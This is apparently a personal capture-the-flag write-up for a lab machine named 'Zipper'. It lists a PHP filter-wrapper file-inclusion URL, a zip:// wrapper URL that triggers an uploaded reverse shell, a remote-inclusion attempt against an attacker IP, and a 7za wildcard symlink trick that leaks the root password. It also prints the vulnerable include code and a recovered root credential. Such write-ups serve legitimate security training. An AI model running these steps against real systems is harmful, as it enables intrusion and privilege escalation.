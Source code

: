 # Zipper \[Hard]

## Report

Port 80 has a file upload functionality that zips any file you upload and we find an input paramater 'page' which we completely control, use this to view source of all PHP files, 'home','index' and 'upload' using PHP wrappers. Obtain reverse shell via zip PHP wrapper and find a cronjob running zip using wildcard. Add a symlink and extract root password.&#x20;

### Writeup

> With this online ZIP converter you can compress your files and create a ZIP archive. Reduce file size and save bandwidth with ZIP compression. Your uploaded files are encrypted and no one can access them.

Hm… It seems like this is a zip\* exploitation. If only we could see the code. It’s definitely not Zipslip since it didn’t unzip the zip for us.

## Cheatsheet

```
http://192.168.137.229/index.php?file=php://filter/convert.base64-encode/resource=home
http://192.168.137.229/index.php?file=zip://uploads/upload_1759138402.zip%23rev

ln -s /root/secret enox.zip
touch @enox.zip
cat /opt/backups/backup.log
```

## Loot

### Enumeration

192.168.137.229

22 and 80

Popper 1.13 exploit RFI - FAIL

`http://192.168.137.229/popper/childwindow.inc.php?form=http://192.168.45.243/what`

* Any file is accepted \[x-php in request they didnt care]
* request sent to '/'
* files stored in 'uploads'
* file name is timestamp converted to EPOCH - we can already fetch whatever we uploaded tho does this matter?
* downloading is also via URL, no input parameter we control\
  `GET /uploads/upload_1759135662.zip`
* index.php, home.php -> same and upload.php which doesnt return anything
* can we zip a file thats alr zipped? - it zips that too
* we know zip command is being used - maybe command injection? \[ping at filename and name didn't work]
* **changing name seems to break the zip command - maybe if we guess epoch we can access?**
* We are expected to break the logic aren't we - figure the error response
* PHP also running we are supposed to send a PHP payload only
* filename doesn't matter because it sets that name for the file within the zip not even the file name uploaded

#### Create zip of multiple uploaded files - this has to be the hint (apparently not)

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption><p>mess around with name and filename</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption><p>HOVERING OVER THE LOGO AND HOME TEXT WE SEE A PARAMETER 'FILE' OMGGGG FFSSSSSSS</p></figcaption></figure>

### Attack Vectors

{% code title="http://192.168.137.229/index.php?file=php://filter/convert.base64-encode/resource=home" %}
```php
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Zipper</title>

</head>
<body>
<?php include 'upload.php'; ?>

<div class="jumbotron">
  <div class="container">
    <h1 class="display-3">Welcome to Zipper!</h1>
    <p class="lead">
      With this online ZIP converter you can compress your files and create a ZIP archive. Reduce file size and save bandwidth with ZIP compression. 
      Your uploaded files are encrypted and no one can access them.
    </p>
    <hr class="my-4">
    <div class="page-container row-12">
    		<h4 class="col-12 text-center mb-5">Create Zip File of Multiple Uploaded Files </h4>
    		<div class="row-8 form-container">
            <?php 
            if(!empty($error)) { 
            ?>
    			<p class="error text-center"><?php echo $error; ?></p>
            <?php 
            }
            ?>
            <?php 
            if(!empty($success)) { 
            ?>
    			<p class="success text-center">
            Files uploaded successfully and compressed into a zip format
            </p>
            <p class="success text-center">
            <a href="uploads/<?php echo $success; ?>" target="__blank">Click here to download the zip file</a>
            </p>
	    	    <?php 
            }
            ?>
		    	<form action="" method="post" enctype="multipart/form-data">
				    <div class="input-group">
						<div class="input-group-prepend">
						    <input type="submit" class="btn btn-primary" value="Upload">
						</div>
						<div class="custom-file">
						    <input type="file" class="custom-file-input" name="img[]" multiple>
						    <label class="custom-file-label" >Choose File</label>
						</div>
					</div>
				</form>
				
    		</div>
		</div>
  </div>
</div>

<div class="container">
  <footer>
    <p>&copy; Zipper 2021</p>
  </footer>
</div> <!-- /.container -->

</body>
</html>
```
{% endcode %}

{% code title="index.php" %}
```php
<?php
$file = $_GET['file'];
if(isset($file))
{
    include("$file".".php");
}
else
{
include("home.php");
}
?>
```
{% endcode %}

{% code title="upload.php incase you want it" %}
```php
<?php
if ($_FILES && $_FILES['img']) {
    
    if (!empty($_FILES['img']['name'][0])) {
        
        $zip = new ZipArchive();
        $zip_name = getcwd() . "/uploads/upload_" . time() . ".zip";
        
        // Create a zip target
        if ($zip->open($zip_name, ZipArchive::CREATE) !== TRUE) {
            $error .= "Sorry ZIP creation is not working currently.<br/>";
        }
        
        $imageCount = count($_FILES['img']['name']);
        for($i=0;$i<$imageCount;$i++) {
        
            if ($_FILES['img']['tmp_name'][$i] == '') {
                continue;
            }
            $newname = date('YmdHis', time()) . mt_rand() . '.tmp';
            
            // Moving files to zip.
            $zip->addFromString($_FILES['img']['name'][$i], file_get_contents($_FILES['img']['tmp_name'][$i]));
            
            // moving files to the target folder.
            move_uploaded_file($_FILES['img']['tmp_name'][$i], './uploads/' . $newname);
        }
        $zip->close();
        
        // Create HTML Link option to download zip
        $success = basename($zip_name);
    } else {
        $error = '<strong>Error!! </strong> Please select a file.';
    }
}

```
{% endcode %}

```php
http://192.168.137.229/index.php?file=zip://uploads/upload_1759138402.zip%23rev
```

### PrivEsc

{% code title="backup.sh" %}
```bash
#!/bin/bash
password=`cat /root/secret`
cd /var/www/html/uploads
rm *.tmp
7za a /opt/backups/backup.zip -p$password -tzip *.zip > /opt/backups/backup.log
```
{% endcode %}

Only one zip file would get this thing to work, having multiple payloads did not cut it idk why \[spoiler the answer was already there why tho]

<figure><img src="../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

### Creds

root:WildCardsGoingWild

### Proof

The backup.sh script explicitly mentions the location of root's password

{% embed url="https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html" %}
